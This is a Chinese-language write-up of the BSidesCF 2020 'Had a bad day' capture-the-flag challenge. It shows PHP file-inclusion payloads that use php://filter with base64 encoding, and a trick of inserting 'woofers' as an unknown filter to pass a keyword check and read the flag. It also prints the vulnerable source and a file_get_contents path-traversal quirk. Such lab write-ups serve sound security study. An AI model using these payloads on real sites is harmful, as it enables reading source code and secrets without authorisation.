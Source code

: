 # \[BSidesCF 2020]Had a bad day

## \[BSidesCF 2020]Had a bad day

## 考点

* 文件包含配合伪协议读取文件
* php://filter伪协议特性
* file\_get\_contents特性

## wp

![](<../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png>)

两个按钮，点一下，页面跳转到index.php?category=woofers

尝试php伪协议文件包含，`index.php?category=php://filter/read=convert.base64-encode/resource=index.php`，得到报错无法包含<mark style="color:red;">index.php.php</mark>

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png>)

改一下payload，`index.php?category=php://filter/read=convert.base64-encode/resource=index`

```php
<?php
$file = $_GET['category'];
if(isset($file))
{
if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
            include ($file . '.php');
}else{
echo "Sorry, we currently only support woofers and meowers.";
}
}
?>
```

要包含的文件名中必须含有woffers或meowers或index

这里就用php://filter伪协议的特性，可以在协议上套一层协议，并且遇到识别不了的会自动过滤

`index.php?category=php://filter/convert.base64-encode/write=woofers/resource=flag`

`index.php?category=php://filter/convert.base64-encode/woofers/resource=flag`

## 小结

1. php://filter伪协议遇到识别不了的协议或过滤器会自动过滤，比如`php://filter/convert.base64-encode/write=woofers/resource=flag`会自动过滤`write=woofers`
2. file\_get\_contents在遇到无法识别的协议时，会把它当做目录处理

```php
$a = file_get_contents("a/://github/../../../2.txt");
echo $a;
$a = file_get_contents("http(://github/../../2.txt");
echo $a;
// 123
```

目录结构如下

* index.php
* 2.txt
